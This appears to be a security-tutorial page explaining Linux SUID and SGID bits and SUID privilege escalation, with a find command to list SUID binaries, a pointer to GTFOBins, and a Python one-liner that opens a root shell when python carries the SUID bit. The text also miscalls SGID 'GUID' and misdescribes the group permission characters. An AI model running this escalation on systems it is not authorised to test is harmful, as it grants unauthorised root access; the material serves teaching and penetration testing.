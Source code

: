 # SUID Privilege Escalation

## What is SUID?

**Set User ID (SUID)** is a special permission in Unix/Linux systems. When a file has the SUID bit set, it allows the file to be executed with the privileges of the file's owner, regardless of the user running the file. Typically used to grant regular users temporary elevated permissions to execute specific tasks.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Indicated by `rws` for the owner’s permission. When the **SUID** bit is set (`s` instead of `x` for execute), any user who runs this file does so with the **permissions of the file owner**. This is commonly used when a file is owned by **root** but allows regular users to execute it with root privileges.

The next three characters (`rws`) represent the permissions for the **group** that owns the file. Similar to the owner permissions, **read (r)**, **write (w)**, and **execute (x)** are granted or denied to the group. When the **GUID (Set Group ID)** is set, the execute bit for the group is replaced with an `s`, indicating that the file will be run with the group’s privileges.

The **GUID** is similar to SUID but applies to the **group**. It allows anyone executing the file to run it with the permissions of the group that owns the file. In this example, the group permission includes `s`, showing that the GUID bit is set.

## How to Identify SUID Files

SUID files can be identified by searching for files with the `s` bit in the owner's execute permission field.

```bash
find / -perm -4000 2>/dev/null
```

Example of an SUID file:

```bash
-rwsr-xr-x 1 root root /usr/bin/passwd
```

In this example:

* `rws` indicates the SUID bit is set.
* The owner is **root**, meaning any user executing this file does so with **root** privileges.

## How to exploit SUID Binaries to escalate privilege.

Certain binaries, like `su`, `sudo`, `passwd`,etc typically have the SUID bit set on all Linux systems. These are essential system binaries and are generally secure. However, vulnerabilities are more likely to be found in non-system binaries. To begin exploring potential exploitation methods, checking GTFObins for any relevant techniques is a great first step.

{% embed url="https://gtfobins.github.io/#+suid" %}

For an example, if suid is set on python then we can exploit it to escalate privileges

**Verify SUID on python**

```
ls -l /usr/bin/python
-rwsr-xr-x 1 root root /usr/bin/python

```

Create a Python One-Liner for Privilege Escalation

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-i")'
```

Verifying privilege escalation

```
whoami
root
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

